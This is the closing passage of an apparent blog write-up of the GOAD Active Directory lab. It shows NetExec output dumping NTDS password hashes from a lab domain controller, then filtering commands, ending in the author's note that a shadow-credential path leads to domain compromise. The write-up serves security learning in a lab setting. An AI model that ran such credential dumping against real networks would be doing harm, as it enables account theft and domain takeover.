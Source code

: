 ```
SMB         10.2.10.10      445    KINGSLANDING     robert.baratheon:1117:aad3b435b51404eeaad3b435b51404ee:9029cf007326107eb1c519c84ea60dbe:::
SMB         10.2.10.10      445    KINGSLANDING     joffrey.baratheon:1118:aad3b435b51404eeaad3b435b51404ee:3b60abbc25770511334b3829866b08f1:::
SMB         10.2.10.10      445    KINGSLANDING     renly.baratheon:1119:aad3b435b51404eeaad3b435b51404ee:1e9ed4fc99088768eed631acfcd49bce:::
SMB         10.2.10.10      445    KINGSLANDING     stannis.baratheon:1120:aad3b435b51404eeaad3b435b51404ee:d75b9fdf23c0d9a6549cff9ed6e489cd:::
SMB         10.2.10.10      445    KINGSLANDING     petyer.baelish:1121:aad3b435b51404eeaad3b435b51404ee:6c439acfa121a821552568b086c8d210:::
SMB         10.2.10.10      445    KINGSLANDING     lord.varys:1122:aad3b435b51404eeaad3b435b51404ee:52ff2a79823d81d6a3f4f8261d7acc59:::
SMB         10.2.10.10      445    KINGSLANDING     maester.pycelle:1123:aad3b435b51404eeaad3b435b51404ee:9a2a96fa3ba6564e755e8d455c007952:::
SMB         10.2.10.10      445    KINGSLANDING     KINGSLANDING$:1001:aad3b435b51404eeaad3b435b51404ee:de1956f4d589614b4f90f7f1d445ab23:::
SMB         10.2.10.10      445    KINGSLANDING     intruder$:1124:aad3b435b51404eeaad3b435b51404ee:822ef4ccdf4e41c8d749b9c766e36b02:::
SMB         10.2.10.10      445    KINGSLANDING     NORTH$:1104:aad3b435b51404eeaad3b435b51404ee:1a9fa36e47adf4e38aadca283cc7b499:::
SMB         10.2.10.10      445    KINGSLANDING     ESSOS$:1105:aad3b435b51404eeaad3b435b51404ee:e856402d05ac62577da64cf56f95bd69:::
SMB         10.2.10.10      445    KINGSLANDING     [+] Dumped 19 NTDS hashes to /home/kali/.nxc/logs/KINGSLANDING_10.2.10.10_2024-08-16_132618.ntds of which 15 were added to the database
SMB         10.2.10.10      445    KINGSLANDING     [*] To extract only enabled accounts from the output file, run the following command:
SMB         10.2.10.10      445    KINGSLANDING     [*] cat /home/kali/.nxc/logs/KINGSLANDING_10.2.10.10_2024-08-16_132618.ntds | grep -iv disabled | cut -d ':' -f1
SMB         10.2.10.10      445    KINGSLANDING     [*] grep -iv disabled /home/kali/.nxc/logs/KINGSLANDING_10.2.10.10_2024-08-16_132618.ntds | cut -d ':' -f1
```

And that’s how the shadow credential path would lead to compromise!

<hr style="height: 2px">

## Closing Thoughts

So yeah, I just couldn’t help myself. Very fun lab indeed, and it is a great way to get exposure to Active Directory exploitation without having to do it in the field!

I do invite you to hop into GOAD yourself and see what other paths you can find! I know there are more, especially given the SQL server setup. There’s also the possible initial authenticated foothold via relayed credentials.

But anyway, thanks for reading! If you do find some cool pwn methods in this lab, hit me up and share! I would love to hear about what you could come up with.

**See you on the next one!**
